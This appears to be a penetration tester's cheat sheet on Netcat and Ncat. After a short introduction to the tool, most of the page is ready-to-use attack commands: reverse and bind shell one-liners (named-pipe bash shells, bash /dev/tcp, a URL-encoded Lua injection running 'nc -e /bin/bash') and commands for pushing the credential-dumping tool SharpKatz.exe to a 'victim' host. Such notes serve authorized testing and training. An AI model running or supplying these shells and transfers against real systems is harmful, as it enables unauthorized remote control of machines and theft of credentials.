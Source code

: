 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

#### Simple Shell 

On the Victim run:

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

On the attacker run:

```shell-session
nc -nv 10.129.41.200 443
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer

## Connect from Attacker / Listener on Victim 

1. Setup listener 

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

2. Send file

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


## Connect from Victim / Listener on Attacker

1. Setup listener on attacker 

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

2. Receive file

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


### Bash Listener 

```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```



